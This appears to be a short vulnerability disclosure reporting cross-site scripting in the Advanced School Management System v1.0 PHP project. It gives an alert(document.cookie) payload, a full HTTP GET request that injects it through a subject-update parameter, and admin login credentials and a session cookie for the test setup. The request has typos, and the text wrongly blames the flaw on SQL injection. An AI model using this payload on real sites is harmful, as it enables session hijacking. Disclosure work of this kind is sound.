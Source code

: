 # Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)
**Vul_Author: Liyuan Ji**

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/subject.php

Vulnerability location: ip/school/moudel/update_subject.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an exemple with alert:

```
GET /school/model/update_subject.php?id=15&nama=%3Cscript%3Ealert(documant.cookie)%3C/script%3E$do=update_subject HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0(X11;Linux x86_64; rw:91.0) Gecko/20100101Firefox/91.0
Accept: */*
Accept-Language: en-Us,en;q-0.5
Accept-Encoding: gzip,deflate
Connection: close
Referer: http://192.168.1.19/school/view/subject.php
Cookie: PHPSESSID=5nicpveormjn86h3bf398fsem3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

We click the subject interface and edit it.

![](4.png)

XSS script that writes the burst cookie.

![](5.png)

After we update, click subject again.

![](2.png)

We have obtained the cookie.

It can be seen from the source code that it is an XSS attack using SQL injection vulnerability.

![](3.png)